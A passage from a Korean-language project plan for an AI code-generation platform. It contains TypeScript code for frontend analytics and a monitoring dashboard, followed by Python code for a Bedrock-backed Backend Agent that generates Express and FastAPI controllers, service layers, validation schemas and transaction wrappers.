        trackEvent('user_active', {
          sessionId: sessionRef.current?.sessionId,
          idleDuration: idleTime
        });
      }
    };
    
    // Track mouse movement, clicks, and keyboard activity
    ['mousemove', 'click', 'keypress', 'scroll', 'touchstart'].forEach(event => {
      document.addEventListener(event, resetIdleTimer);
    });
    
    // Check for idle every minute
    setInterval(() => {
      idleTime++;
      
      if (idleTime >= 5 && !isIdle) { // 5 minutes idle
        isIdle = true;
        trackEvent('user_idle', {
          sessionId: sessionRef.current?.sessionId
        });
      }
    }, 60000);
  };
  
  // Rage click detection
  const trackRageClicks = () => {
    let clickCount = 0;
    let clickTimer: NodeJS.Timeout;
    const clickThreshold = 5;
    const timeWindow = 2000; // 2 seconds
    
    document.addEventListener('click', (e) => {
      clickCount++;
      
      if (clickCount >= clickThreshold) {
        trackEvent('rage_click', {
          sessionId: sessionRef.current?.sessionId,
          clickCount,
          target: (e.target as HTMLElement).tagName,
          url: window.location.href
        });
      }
      
      clearTimeout(clickTimer);
      clickTimer = setTimeout(() => {
        clickCount = 0;
      }, timeWindow);
    });
  };
  
  // Form abandonment tracking
  const trackFormAbandonment = () => {
    const forms = document.querySelectorAll('form');
    
    forms.forEach(form => {
      let formStarted = false;
      let formData: any = {};
      
      form.addEventListener('input', (e) => {
        if (!formStarted) {
          formStarted = true;
          formData.startTime = Date.now();
          formData.formId = form.id || 'unnamed-form';
          
          trackEvent('form_start', {
            sessionId: sessionRef.current?.sessionId,
            formId: formData.formId
          });
        }
        
        const target = e.target as HTMLInputElement;
        formData[target.name] = target.value ? 'filled' : 'empty';
      });
      
      form.addEventListener('submit', () => {
        if (formStarted) {
          trackEvent('form_submit', {
            sessionId: sessionRef.current?.sessionId,
            formId: formData.formId,
            duration: Date.now() - formData.startTime,
            completionRate: calculateFormCompletion(form)
          });
        }
      });
      
      // Track abandonment on page leave
      window.addEventListener('beforeunload', () => {
        if (formStarted && !form.dataset.submitted) {
          navigator.sendBeacon('/api/analytics', JSON.stringify({
            type: 'form_abandon',
            sessionId: sessionRef.current?.sessionId,
            formId: formData.formId,
            duration: Date.now() - formData.startTime,
            fields: formData
          }));
        }
      });
    });
  };
};

// Helper functions
const generateSessionId = () => {
  return Date.now().toString(36) + Math.random().toString(36).substr(2);
};

const detectDevice = () => {
  const ua = navigator.userAgent;
  
  return {
    type: /mobile/i.test(ua) ? 'mobile' : 'desktop',
    browser: detectBrowser(ua),
    os: detectOS(ua)
  };
};

const calculateFormCompletion = (form: HTMLFormElement) => {
  const inputs = form.querySelectorAll('input, textarea, select');
  const filled = Array.from(inputs).filter(
    (input: any) => input.value && input.value.trim() !== ''
  );
  
  return (filled.length / inputs.length) * 100;
};`;

// Custom Events Configuration
const customEventsCode = `
// Event definitions
export const ANALYTICS_EVENTS = {
  // User actions
  BUTTON_CLICK: 'button_click',
  LINK_CLICK: 'link_click',
  FORM_SUBMIT: 'form_submit',
  SEARCH: 'search',
  FILTER_APPLY: 'filter_apply',
  SORT_CHANGE: 'sort_change',
  
  // E-commerce events
  PRODUCT_VIEW: 'product_view',
  ADD_TO_CART: 'add_to_cart',
  REMOVE_FROM_CART: 'remove_from_cart',
  CHECKOUT_START: 'checkout_start',
  CHECKOUT_COMPLETE: 'checkout_complete',
  PAYMENT_SUCCESS: 'payment_success',
  PAYMENT_FAILURE: 'payment_failure',
  
  // Content engagement
  ARTICLE_READ: 'article_read',
  VIDEO_PLAY: 'video_play',
  VIDEO_COMPLETE: 'video_complete',
  DOWNLOAD: 'download',
  SHARE: 'share',
  COMMENT: 'comment',
  LIKE: 'like',
  
  // Feature usage
  FEATURE_USE: 'feature_use',
  FEATURE_DISCOVERY: 'feature_discovery',
  SETTINGS_CHANGE: 'settings_change',
  
  // Performance
  SLOW_LOAD: 'slow_load',
  ERROR: 'error',
  API_ERROR: 'api_error'
} as const;

// Event tracking hook
export const useEventTracking = () => {
  const { trackEvent } = useAnalytics();
  
  const track = (
    eventName: keyof typeof ANALYTICS_EVENTS | string,
    properties?: Record<string, any>
  ) => {
    const event = ANALYTICS_EVENTS[eventName as keyof typeof ANALYTICS_EVENTS] || eventName;
    
    // Add common properties
    const enrichedProperties = {
      ...properties,
      timestamp: Date.now(),
      url: window.location.href,
      referrer: document.referrer,
      viewport: {
        width: window.innerWidth,
        height: window.innerHeight
      }
    };
    
    trackEvent(event, enrichedProperties);
  };
  
  return { track };
};

// Auto-tracking components
export const TrackableButton = ({ 
  onClick, 
  eventName, 
  eventProperties,
  children,
  ...props 
}: any) => {
  const { track } = useEventTracking();
  
  const handleClick = (e: React.MouseEvent) => {
    track(eventName || ANALYTICS_EVENTS.BUTTON_CLICK, {
      ...eventProperties,
      buttonText: e.currentTarget.textContent
    });
    
    onClick?.(e);
  };
  
  return (
    <button onClick={handleClick} {...props}>
      {children}
    </button>
  );
};

export const TrackableLink = ({ 
  href, 
  onClick,
  eventName,
  eventProperties,
  children,
  ...props 
}: any) => {
  const { track } = useEventTracking();
  
  const handleClick = (e: React.MouseEvent) => {
    track(eventName || ANALYTICS_EVENTS.LINK_CLICK, {
      ...eventProperties,
      linkText: e.currentTarget.textContent,
      linkHref: href
    });
    
    onClick?.(e);
  };
  
  return (
    <a href={href} onClick={handleClick} {...props}>
      {children}
    </a>
  );
};`;

// Dashboard component for monitoring
const monitoringDashboardCode = `
import { useEffect, useState } from 'react';
import { Line, Bar, Doughnut } from 'react-chartjs-2';

interface DashboardMetrics {
  realTimeUsers: number;
  pageViews: number;
  errorRate: number;
  avgLoadTime: number;
  topPages: Array<{ page: string; views: number }>;
  webVitals: {
    lcp: number;
    fid: number;
    cls: number;
    ttfb: number;
  };
}

export const MonitoringDashboard = () => {
  const [metrics, setMetrics] = useState<DashboardMetrics | null>(null);
  const [timeRange, setTimeRange] = useState('1h');
  
  useEffect(() => {
    const fetchMetrics = async () => {
      try {
        const response = await fetch(\`/api/analytics/dashboard?range=\${timeRange}\`);
        const data = await response.json();
        setMetrics(data);
      } catch (error) {
        console.error('Failed to fetch metrics:', error);
      }
    };
    
    fetchMetrics();
    const interval = setInterval(fetchMetrics, 30000); // Update every 30s
    
    return () => clearInterval(interval);
  }, [timeRange]);
  
  if (!metrics) return <div>Loading metrics...</div>;
  
  return (
    <div className="p-6 space-y-6">
      <div className="flex justify-between items-center">
        <h1 className="text-2xl font-bold">Performance Monitoring</h1>
        <select 
          value={timeRange} 
          onChange={(e) => setTimeRange(e.target.value)}
          className="px-4 py-2 border rounded"
        >
          <option value="1h">Last Hour</option>
          <option value="24h">Last 24 Hours</option>
          <option value="7d">Last 7 Days</option>
          <option value="30d">Last 30 Days</option>
        </select>
      </div>
      
      {/* Key Metrics */}
      <div className="grid grid-cols-4 gap-4">
        <MetricCard
          title="Real-time Users"
          value={metrics.realTimeUsers}
          trend="+12%"
          icon="users"
        />
        <MetricCard
          title="Page Views"
          value={metrics.pageViews}
          trend="+5%"
          icon="eye"
        />
        <MetricCard
          title="Error Rate"
          value={\`\${metrics.errorRate}%\`}
          trend="-2%"
          status={metrics.errorRate > 5 ? 'danger' : 'success'}
          icon="alert"
        />
        <MetricCard
          title="Avg Load Time"
          value={\`\${metrics.avgLoadTime}ms\`}
          trend="-100ms"
          status={metrics.avgLoadTime > 3000 ? 'warning' : 'success'}
          icon="clock"
        />
      </div>
      
      {/* Web Vitals */}
      <div className="bg-white p-6 rounded-lg shadow">
        <h2 className="text-lg font-semibold mb-4">Core Web Vitals</h2>
        <div className="grid grid-cols-4 gap-4">
          <WebVitalCard
            name="LCP"
            value={metrics.webVitals.lcp}
            threshold={2500}
            unit="ms"
          />
          <WebVitalCard
            name="FID"
            value={metrics.webVitals.fid}
            threshold={100}
            unit="ms"
          />
          <WebVitalCard
            name="CLS"
            value={metrics.webVitals.cls}
            threshold={0.1}
            unit=""
          />
          <WebVitalCard
            name="TTFB"
            value={metrics.webVitals.ttfb}
            threshold={800}
            unit="ms"
          />
        </div>
      </div>
      
      {/* Charts */}
      <div className="grid grid-cols-2 gap-6">
        <div className="bg-white p-6 rounded-lg shadow">
          <h2 className="text-lg font-semibold mb-4">Performance Trend</h2>
          <Line
            data={generatePerformanceChartData(metrics)}
            options={{
              responsive: true,
              plugins: {
                legend: { position: 'top' }
              }
            }}
          />
        </div>
        
        <div className="bg-white p-6 rounded-lg shadow">
          <h2 className="text-lg font-semibold mb-4">Top Pages</h2>
          <Bar
            data={generateTopPagesChartData(metrics.topPages)}
            options={{
              responsive: true,
              plugins: {
                legend: { display: false }
              }
            }}
          />
        </div>
      </div>
      
      {/* Alerts */}
      <AlertsPanel metrics={metrics} />
    </div>
  );
};`;
```

**검증 기준**:

- [ ] 다중 분석 플랫폼 통합
- [ ] 실시간 성능 모니터링
- [ ] 사용자 행동 추적
- [ ] 에러 추적 및 보고

**Phase 4 완료 체크리스트**:

- [ ] UI Selection Agent 완전 구현
- [ ] Frontend Agent 핵심 기능 구현
- [ ] 테스트 자동화 시스템 구축
- [ ] CI/CD 파이프라인 통합
- [ ] 모니터링 시스템 구현

---

# Phase 4: 9개 핵심 에이전트 구현 - Part 8 (Tasks 4.15-4.16)

## 4. Backend Agent (백엔드 코드 생성 에이전트)

### Task 4.15: Backend Agent 코어 구현

#### SubTask 4.15.1: 백엔드 코드 생성 엔진

**담당자**: 시니어 백엔드 개발자  
**예상 소요시간**: 14시간

**작업 내용**:

```python
# backend/src/agents/implementations/backend_agent.py
from typing import Dict, List, Optional, Any, Tuple
from dataclasses import dataclass
from enum import Enum
import asyncio
from agno.agent import Agent
from agno.models.aws import AwsBedrock

@dataclass
class BackendCodeStructure:
    framework: str
    project_name: str
    controllers: List[ControllerCode]
    services: List[ServiceCode]
    repositories: List[RepositoryCode]
    models: List[ModelCode]
    middleware: List[MiddlewareCode]
    utils: List[UtilityCode]
    configurations: Dict[str, Any]
    tests: List[TestCode]
    documentation: DocumentationCode

@dataclass
class ControllerCode:
    name: str
    endpoints: List[EndpointCode]
    middleware: List[str]
    base_path: str
    code: str
    tests: Optional[str]

class BackendAgent:
    """백엔드 코드 생성 에이전트"""

    def __init__(self):
        self.code_generator = Agent(
            name="Backend-Code-Generator",
            model=AwsBedrock(id="anthropic.claude-3-sonnet-v2:0"),
            role="Expert backend developer specializing in scalable API development",
            instructions=[
                "Generate production-ready backend code based on requirements",
                "Follow framework best practices and design patterns",
                "Implement proper error handling and validation",
                "Create maintainable and testable code",
                "Include comprehensive logging and monitoring",
                "Optimize for performance and scalability",
                "Implement security best practices"
            ],
            temperature=0.3
        )

        self.controller_generator = ControllerGenerator()
        self.service_generator = ServiceGenerator()
        self.repository_generator = RepositoryGenerator()
        self.model_generator = ModelGenerator()
        self.middleware_generator = MiddlewareGenerator()
        self.test_generator = BackendTestGenerator()

    async def generate_backend_code(
        self,
        requirements: ProjectRequirements,
        framework: str,
        database_schema: DatabaseSchema,
        api_spec: APISpecification,
        architecture: ArchitectureDesign
    ) -> BackendCodeStructure:
        """백엔드 코드 전체 생성"""

        # 1. 프로젝트 구조 설계
        project_structure = await self._design_project_structure(
            requirements,
            framework,
            architecture
        )

        # 2. 모델 생성
        models = await self._generate_models(
            database_schema,
            framework
        )

        # 3. 리포지토리 생성
        repositories = await self._generate_repositories(
            models,
            framework,
            database_schema.database_type
        )

        # 4. 서비스 레이어 생성
        services = await self._generate_services(
            requirements,
            models,
            repositories,
            framework
        )

        # 5. 컨트롤러 생성
        controllers = await self._generate_controllers(
            api_spec,
            services,
            framework
        )

        # 6. 미들웨어 생성
        middleware = await self._generate_middleware(
            requirements,
            framework
        )

        # 7. 유틸리티 생성
        utilities = await self._generate_utilities(
            requirements,
            framework
        )

        # 8. 설정 파일 생성
        configurations = await self._generate_configurations(
            requirements,
            framework,
            architecture
        )

        # 9. 테스트 코드 생성
        tests = await self._generate_tests(
            controllers,
            services,
            repositories,
            framework
        )

        # 10. 문서화 생성
        documentation = await self._generate_documentation(
            api_spec,
            models,
            services
        )

        return BackendCodeStructure(
            framework=framework,
            project_name=requirements.project_name,
            controllers=controllers,
            services=services,
            repositories=repositories,
            models=models,
            middleware=middleware,
            utils=utilities,
            configurations=configurations,
            tests=tests,
            documentation=documentation
        )

    async def _generate_models(
        self,
        database_schema: DatabaseSchema,
        framework: str
    ) -> List[ModelCode]:
        """데이터베이스 모델 생성"""

        models = []

        for table in database_schema.tables:
            model_code = await self.model_generator.generate(
                table,
                framework,
                database_schema.database_type
            )
            models.append(model_code)

        # 관계 설정
        for relationship in database_schema.relationships:
            await self._apply_relationship(models, relationship, framework)

        return models

    async def _generate_controllers(
        self,
        api_spec: APISpecification,
        services: List[ServiceCode],
        framework: str
    ) -> List[ControllerCode]:
        """API 컨트롤러 생성"""

        controllers = []

        # API 스펙을 컨트롤러별로 그룹화
        controller_groups = self._group_endpoints_by_controller(api_spec.endpoints)

        for controller_name, endpoints in controller_groups.items():
            controller = await self.controller_generator.generate(
                controller_name,
                endpoints,
                services,
                framework
            )
            controllers.append(controller)

        return controllers

    def _group_endpoints_by_controller(
        self,
        endpoints: List[APIEndpoint]
    ) -> Dict[str, List[APIEndpoint]]:
        """엔드포인트를 컨트롤러별로 그룹화"""

        groups = {}

        for endpoint in endpoints:
            # 경로에서 컨트롤러 이름 추출 (예: /users/{id} -> UsersController)
            path_parts = endpoint.path.strip('/').split('/')
            controller_name = path_parts[0].capitalize() + 'Controller'

            if controller_name not in groups:
                groups[controller_name] = []

            groups[controller_name].append(endpoint)

        return groups

class ControllerGenerator:
    """컨트롤러 코드 생성기"""

    async def generate(
        self,
        name: str,
        endpoints: List[APIEndpoint],
        services: List[ServiceCode],
        framework: str
    ) -> ControllerCode:
        """프레임워크별 컨트롤러 생성"""

        if framework == 'express':
            return await self._generate_express_controller(name, endpoints, services)
        elif framework == 'fastapi':
            return await self._generate_fastapi_controller(name, endpoints, services)
        elif framework == 'nestjs':
            return await self._generate_nestjs_controller(name, endpoints, services)
        elif framework == 'django':
            return await self._generate_django_controller(name, endpoints, services)
        elif framework == 'spring':
            return await self._generate_spring_controller(name, endpoints, services)
        else:
            return await self._generate_generic_controller(name, endpoints, services)

    async def _generate_express_controller(
        self,
        name: str,
        endpoints: List[APIEndpoint],
        services: List[ServiceCode]
    ) -> ControllerCode:
        """Express.js 컨트롤러 생성"""

        controller_code = f"""
import {{ Router, Request, Response, NextFunction }} from 'express';
import {{ body, param, query, validationResult }} from 'express-validator';
import {{ {self._get_service_imports(name, services)} }} from '../services';
import {{ asyncHandler }} from '../utils/asyncHandler';
import {{ ApiError }} from '../utils/ApiError';
import {{ ApiResponse }} from '../utils/ApiResponse';
import {{ authenticate, authorize }} from '../middleware/auth';
import {{ rateLimiter }} from '../middleware/rateLimiter';
import {{ cache }} from '../middleware/cache';
import {{ logger }} from '../utils/logger';

export class {name} {{
    private router: Router;
    private {self._get_service_name(name)}: {self._get_service_class(name)};

    constructor() {{
        this.router = Router();
        this.{self._get_service_name(name)} = new {self._get_service_class(name)}();
        this.initializeRoutes();
    }}

    private initializeRoutes(): void {{
        {self._generate_express_routes(endpoints)}
    }}

    {self._generate_express_handlers(endpoints)}

    public getRouter(): Router {{
        return this.router;
    }}
}}

export default new {name}();
"""

        # 테스트 코드 생성
        test_code = await self._generate_controller_tests(name, endpoints, 'express')

        return ControllerCode(
            name=name,
            endpoints=self._convert_to_endpoint_codes(endpoints),
            middleware=self._extract_middleware(endpoints),
            base_path=self._get_base_path(endpoints),
            code=controller_code,
            tests=test_code
        )

    def _generate_express_routes(self, endpoints: List[APIEndpoint]) -> str:
        """Express 라우트 생성"""

        routes = []

        for endpoint in endpoints:
            method = endpoint.method.lower()
            path = self._convert_path_to_express(endpoint.path)
            handler = self._get_handler_name(endpoint)
            middleware = self._get_endpoint_middleware(endpoint)
            validation = self._get_validation_middleware(endpoint)

            route_code = f"""
        this.router.{method}(
            '{path}',
            {', '.join(middleware + validation)},
            asyncHandler(this.{handler}.bind(this))
        );"""

            routes.append(route_code)

        return '\n'.join(routes)

    def _generate_express_handlers(self, endpoints: List[APIEndpoint]) -> str:
        """Express 핸들러 메서드 생성"""

        handlers = []

        for endpoint in endpoints:
            handler_code = f"""
    private async {self._get_handler_name(endpoint)}(
        req: Request,
        res: Response,
        next: NextFunction
    ): Promise<void> {{
        try {{
            // Validate request
            const errors = validationResult(req);
            if (!errors.isEmpty()) {{
                throw new ApiError(400, 'Validation failed', errors.array());
            }}

            // Extract parameters
            {self._extract_parameters(endpoint)}

            // Call service
            const result = await this.{self._get_service_name(endpoint.tags[0])}.{self._get_service_method(endpoint)}(
                {self._get_service_params(endpoint)}
            );

            // Send response
            res.status({endpoint.success_status_code or 200}).json(
                new ApiResponse(
                    {endpoint.success_status_code or 200},
                    result,
                    '{endpoint.summary}'
                )
            );
        }} catch (error) {{
            logger.error(`Error in {self._get_handler_name(endpoint)}:`, error);
            next(error);
        }}
    }}"""

            handlers.append(handler_code)

        return '\n'.join(handlers)

    async def _generate_fastapi_controller(
        self,
        name: str,
        endpoints: List[APIEndpoint],
        services: List[ServiceCode]
    ) -> ControllerCode:
        """FastAPI 컨트롤러 생성"""

        controller_code = f"""
from fastapi import APIRouter, Depends, HTTPException, status, Query, Path, Body
from fastapi.responses import JSONResponse
from typing import List, Optional, Dict, Any
from datetime import datetime

from app.services.{self._to_snake_case(name)} import {self._get_service_class(name)}
from app.schemas.{self._to_snake_case(name)} import {self._get_schema_imports(endpoints)}
from app.core.dependencies import get_current_user, check_permissions
from app.core.security import RateLimiter
from app.core.cache import cache_key_wrapper, cache
from app.utils.logger import logger
from app.utils.responses import success_response, error_response

router = APIRouter(
    prefix="/{self._get_base_path(endpoints)}",
    tags=["{self._get_tag(name)}"],
    responses={{
        404: {{"description": "Not found"}},
        403: {{"description": "Forbidden"}},
        401: {{"description": "Unauthorized"}}
    }}
)

# Initialize service
{self._to_snake_case(self._get_service_name(name))} = {self._get_service_class(name)}()

{self._generate_fastapi_endpoints(endpoints)}
"""

        return ControllerCode(
            name=name,
            endpoints=self._convert_to_endpoint_codes(endpoints),
            middleware=self._extract_middleware(endpoints),
            base_path=self._get_base_path(endpoints),
            code=controller_code,
            tests=None
        )

    def _generate_fastapi_endpoints(self, endpoints: List[APIEndpoint]) -> str:
        """FastAPI 엔드포인트 생성"""

        endpoint_codes = []

        for endpoint in endpoints:
            method = endpoint.method.lower()
            path = self._convert_path_to_fastapi(endpoint.path)

            endpoint_code = f"""
@router.{method}(
    "{path}",
    summary="{endpoint.summary}",
    description=\"\"\"{endpoint.description}\"\"\",
    response_model={self._get_response_model(endpoint)},
    status_code=status.{self._get_status_constant(endpoint.success_status_code)}
)
async def {self._get_handler_name(endpoint)}(
    {self._generate_fastapi_params(endpoint)}
) -> {self._get_response_model(endpoint)}:
    \"\"\"
    {endpoint.description}
    \"\"\"
    try:
        {self._generate_fastapi_handler_body(endpoint)}
    except Exception as e:
        logger.error(f"Error in {self._get_handler_name(endpoint)}: {{str(e)}}")
        raise HTTPException(
            status_code=status.HTTP_500_INTERNAL_SERVER_ERROR,
            detail="Internal server error"
        )
"""

            endpoint_codes.append(endpoint_code)

        return '\n'.join(endpoint_codes)
```

**검증 기준**:

- [ ] 다양한 백엔드 프레임워크 지원
- [ ] RESTful API 패턴 구현
- [ ] 에러 처리 및 검증
- [ ] 보안 미들웨어 통합

#### SubTask 4.15.2: 비즈니스 로직 및 서비스 레이어

**담당자**: 백엔드 아키텍트  
**예상 소요시간**: 12시간

**작업 내용**:

```python
# backend/src/agents/implementations/service_layer_generator.py
from typing import Dict, List, Optional, Any, Type
from dataclasses import dataclass
from abc import ABC, abstractmethod

@dataclass
class ServiceCode:
    name: str
    methods: List[ServiceMethod]
    dependencies: List[str]
    code: str
    interface: Optional[str]
    tests: Optional[str]

@dataclass
class ServiceMethod:
    name: str
    parameters: List[Parameter]
    return_type: str
    business_logic: str
    validations: List[Validation]
    error_cases: List[ErrorCase]

class ServiceGenerator:
    """서비스 레이어 코드 생성기"""

    def __init__(self):
        self.pattern_analyzer = PatternAnalyzer()
        self.validation_generator = ValidationGenerator()
        self.transaction_manager = TransactionManager()

    async def generate(
        self,
        requirements: ProjectRequirements,
        models: List[ModelCode],
        repositories: List[RepositoryCode],
        framework: str
    ) -> List[ServiceCode]:
        """서비스 레이어 생성"""

        services = []

        # 도메인별 서비스 생성
        domains = self._identify_domains(requirements, models)

        for domain in domains:
            service = await self._generate_domain_service(
                domain,
                models,
                repositories,
                framework
            )
            services.append(service)

        # 공통 서비스 생성
        common_services = await self._generate_common_services(
            requirements,
            framework
        )
        services.extend(common_services)

        return services

    async def _generate_domain_service(
        self,
        domain: Domain,
        models: List[ModelCode],
        repositories: List[RepositoryCode],
        framework: str
    ) -> ServiceCode:
        """도메인 서비스 생성"""

        if framework in ['express', 'nestjs']:
            return await self._generate_typescript_service(domain, models, repositories)
        elif framework == 'fastapi':
            return await self._generate_python_service(domain, models, repositories)
        elif framework == 'spring':
            return await self._generate_java_service(domain, models, repositories)
        else:
            return await self._generate_generic_service(domain, models, repositories)

    async def _generate_typescript_service(
        self,
        domain: Domain,
        models: List[ModelCode],
        repositories: List[RepositoryCode]
    ) -> ServiceCode:
        """TypeScript 서비스 생성"""

        service_name = f"{domain.name}Service"
        interface_name = f"I{service_name}"

        # 인터페이스 생성
        interface_code = f"""
export interface {interface_name} {{
    {self._generate_interface_methods(domain)}
}}
"""

        # 서비스 구현
        service_code = f"""
import {{ injectable, inject }} from 'inversify';
import {{ Transaction, ValidationError, BusinessError }} from '../core/errors';
import {{ Logger }} from '../utils/logger';
import {{ CacheManager }} from '../utils/cache';
import {{ EventEmitter }} from '../events';
import {{ {self._get_repository_imports(domain, repositories)} }} from '../repositories';
import {{ {self._get_model_imports(domain, models)} }} from '../models';
import {{ {interface_name} }} from './interfaces/{interface_name}';
import {{
    {self._get_dto_imports(domain)}
}} from '../dto';

@injectable()
export class {service_name} implements {interface_name} {{
    constructor(
        @inject('Logger') private logger: Logger,
        @inject('CacheManager') private cache: CacheManager,
        @inject('EventEmitter') private eventEmitter: EventEmitter,
        {self._generate_repository_injections(domain, repositories)}
    ) {{}}

    {self._generate_service_methods(domain)}

    // Business logic methods
    {self._generate_business_logic_methods(domain)}

    // Validation methods
    {self._generate_validation_methods(domain)}

    // Helper methods
    {self._generate_helper_methods(domain)}
}}
"""

        # 서비스 메서드 생성
        methods = await self._extract_service_methods(domain, models)

        return ServiceCode(
            name=service_name,
            methods=methods,
            dependencies=self._get_service_dependencies(domain, repositories),
            code=service_code,
            interface=interface_code,
            tests=await self._generate_service_tests(service_name, methods)
        )

    def _generate_service_methods(self, domain: Domain) -> str:
        """서비스 메서드 생성"""

        methods = []

        # CRUD 메서드
        crud_methods = self._generate_crud_methods(domain)
        methods.append(crud_methods)

        # 비즈니스 로직 메서드
        business_methods = self._generate_business_methods(domain)
        methods.append(business_methods)

        return '\n\n'.join(methods)

    def _generate_crud_methods(self, domain: Domain) -> str:
        """CRUD 메서드 생성"""

        entity_name = domain.main_entity
        repository_name = f"{entity_name.lower()}Repository"

        return f"""
    /**
     * Create a new {entity_name}
     */
    async create(dto: Create{entity_name}Dto): Promise<{entity_name}> {{
        try {{
            // Validate input
            await this.validateCreate{entity_name}(dto);

            // Check for duplicates
            const existing = await this.{repository_name}.findByUniqueFields(dto);
            if (existing) {{
                throw new BusinessError('DUPLICATE_ENTITY', '{entity_name} already exists');
            }}

            // Begin transaction
            const transaction = await this.{repository_name}.beginTransaction();

            try {{
                // Create entity
                const entity = await this.{repository_name}.create(dto, transaction);

                // Handle related entities
                await this.handleRelatedEntities(entity, dto, transaction);

                // Commit transaction
                await transaction.commit();

                // Clear cache
                await this.cache.invalidate(`{entity_name.lower()}:*`);

                // Emit event
                await this.eventEmitter.emit('{entity_name.lower()}.created', entity);

                // Log
                this.logger.info(`{entity_name} created`, {{ id: entity.id }});

                return entity;
            }} catch (error) {{
                await transaction.rollback();
                throw error;
            }}
        }} catch (error) {{
            this.logger.error(`Error creating {entity_name}`, error);
            throw error;
        }}
    }}

    /**
     * Get {entity_name} by ID
     */
    async getById(id: string): Promise<{entity_name}> {{
        // Try cache first
        const cacheKey = `{entity_name.lower()}:${{id}}`;
        const cached = await this.cache.get<{entity_name}>(cacheKey);
        if (cached) {{
            return cached;
        }}

        // Fetch from database
        const entity = await this.{repository_name}.findById(id);
        if (!entity) {{
            throw new BusinessError('NOT_FOUND', '{entity_name} not found');
        }}

        // Cache result
        await this.cache.set(cacheKey, entity, 3600); // 1 hour

        return entity;
    }}

    /**
     * Update {entity_name}
     */
    async update(id: string, dto: Update{entity_name}Dto): Promise<{entity_name}> {{
        try {{
            // Get existing entity
            const existing = await this.getById(id);

            // Validate update
            await this.validateUpdate{entity_name}(existing, dto);

            // Check for conflicts
            if (dto.uniqueField && dto.uniqueField !== existing.uniqueField) {{
                const conflict = await this.{repository_name}.findByUniqueField(dto.uniqueField);
                if (conflict) {{
                    throw new BusinessError('CONFLICT', 'Unique field already in use');
                }}
            }}

            // Update entity
            const updated = await this.{repository_name}.update(id, dto);

            // Clear cache
            await this.cache.invalidate(`{entity_name.lower()}:${{id}}`);
            await this.cache.invalidate(`{entity_name.lower()}:list:*`);

            // Emit event
            await this.eventEmitter.emit('{entity_name.lower()}.updated', {{
                previous: existing,
                current: updated
            }});

            return updated;
        }} catch (error) {{
            this.logger.error(`Error updating {entity_name}`, {{ id, error }});
            throw error;
        }}
    }}

    /**
     * Delete {entity_name}
     */
    async delete(id: string): Promise<void> {{
        try {{
            // Check if entity exists
            const entity = await this.getById(id);

            // Check if can be deleted
            await this.validateDelete{entity_name}(entity);

            // Soft delete or hard delete based on configuration
            if (this.{repository_name}.supportsSoftDelete) {{
                await this.{repository_name}.softDelete(id);
            }} else {{
                await this.{repository_name}.delete(id);
            }}

            // Clear cache
            await this.cache.invalidate(`{entity_name.lower()}:${{id}}`);
            await this.cache.invalidate(`{entity_name.lower()}:list:*`);

            // Emit event
            await this.eventEmitter.emit('{entity_name.lower()}.deleted', entity);

            this.logger.info(`{entity_name} deleted`, {{ id }});
        }} catch (error) {{
            this.logger.error(`Error deleting {entity_name}`, {{ id, error }});
            throw error;
        }}
    }}

    /**
     * List {entity_name}s with pagination and filtering
     */
    async list(params: List{entity_name}Params): Promise<Paginated<{entity_name}>> {{
        // Generate cache key
        const cacheKey = `{entity_name.lower()}:list:${{JSON.stringify(params)}}`;

        // Try cache
        const cached = await this.cache.get<Paginated<{entity_name}>>(cacheKey);
        if (cached) {{
            return cached;
        }}

        // Apply default params
        const finalParams = {{
            page: 1,
            limit: 20,
            sortBy: 'createdAt',
            sortOrder: 'desc',
            ...params
        }};

        // Validate params
        this.validateListParams(finalParams);

        // Fetch from database
        const result = await this.{repository_name}.findMany(finalParams);

        // Cache result
        await this.cache.set(cacheKey, result, 300); // 5 minutes

        return result;
    }}"""

    def _generate_business_methods(self, domain: Domain) -> str:
        """비즈니스 로직 메서드 생성"""

        methods = []

        for business_rule in domain.business_rules:
            method = f"""
    /**
     * {business_rule.description}
     */
    async {business_rule.method_name}({self._generate_params(business_rule.params)}): Promise<{business_rule.return_type}> {{
        try {{
            // Validate business rule
            {self._generate_business_validation(business_rule)}

            // Execute business logic
            {self._generate_business_logic(business_rule)}

            // Handle side effects
            {self._generate_side_effects(business_rule)}

            return result;
        }} catch (error) {{
            this.logger.error(`Error in {business_rule.method_name}`, {{ error, params }});
            throw error;
        }}
    }}"""
            methods.append(method)

        return '\n\n'.join(methods)

class ValidationGenerator:
    """검증 로직 생성기"""

    def generate_validation_schema(
        self,
        entity: Entity,
        operation: str,
        framework: str
    ) -> str:
        """검증 스키마 생성"""

        if framework in ['express', 'nestjs']:
            return self._generate_joi_schema(entity, operation)
        elif framework == 'fastapi':
            return self._generate_pydantic_schema(entity, operation)
        else:
            return self._generate_generic_validation(entity, operation)

    def _generate_joi_schema(self, entity: Entity, operation: str) -> str:
        """Joi 검증 스키마 생성"""

        return f"""
import Joi from 'joi';

export const {operation}{entity.name}Schema = Joi.object({{
    {self._generate_joi_fields(entity, operation)}
}}).options({{ abortEarly: false }});

export const validate{operation}{entity.name} = (data: any) => {{
    const {{ error, value }} = {operation}{entity.name}Schema.validate(data);

    if (error) {{
        const errors = error.details.map(detail => ({{
            field: detail.path.join('.'),
            message: detail.message
        }}));

        throw new ValidationError('Validation failed', errors);
    }}

    return value;
}};"""

    def _generate_pydantic_schema(self, entity: Entity, operation: str) -> str:
        """Pydantic 검증 스키마 생성"""

        return f"""
from pydantic import BaseModel, Field, validator, root_validator
from typing import Optional, List, Dict, Any
from datetime import datetime
from uuid import UUID

class {operation}{entity.name}Schema(BaseModel):
    {self._generate_pydantic_fields(entity, operation)}

    class Config:
        orm_mode = True
        json_encoders = {{
            datetime: lambda v: v.isoformat()
        }}

    {self._generate_pydantic_validators(entity, operation)}
"""

class TransactionManager:
    """트랜잭션 관리 코드 생성"""

    def generate_transaction_wrapper(
        self,
        framework: str,
        database_type: str
    ) -> str:
        """트랜잭션 래퍼 생성"""

        if framework in ['express', 'nestjs'] and database_type == 'postgresql':
            return self._generate_pg_transaction()
        elif framework == 'fastapi' and database_type == 'postgresql':
            return self._generate_sqlalchemy_transaction()
        elif database_type == 'mongodb':
            return self._generate_mongodb_transaction()
        else:
            return self._generate_generic_transaction()

    def _generate_pg_transaction(self) -> str:
        """PostgreSQL 트랜잭션 (Node.js)"""

        return """
import { Pool } from 'pg';
import { logger } from '../utils/logger';

export class TransactionManager {
    constructor(private pool: Pool) {}

    async executeInTransaction<T>(
        callback: (client: any) => Promise<T>
    ): Promise<T> {
        const client = await this.pool.connect();

        try {
            await client.query('BEGIN');

            const result = await callback(client);

            await client.query('COMMIT');

            return result;
        } catch (error) {
            await client.query('ROLLBACK');
